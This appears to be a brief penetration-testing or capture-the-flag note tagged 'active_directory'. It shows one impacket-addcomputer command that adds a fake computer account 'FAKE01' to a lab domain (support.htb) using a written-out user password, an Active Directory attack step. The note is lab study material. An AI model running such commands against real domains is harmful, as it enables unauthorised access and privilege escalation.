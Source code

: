 ```yaml
---
tags:
  - active_directory
---
```

# addcompuiter

Adds a computer account to domain

## Capabilities

```bash
impacket-addcomputer -dc-ip 10.129.64.183 -baseDN DC=support,DC=htb -computer-name FAKE01 -computer-pass password support.htb/support:Ironside47pleasure40Watchful
```
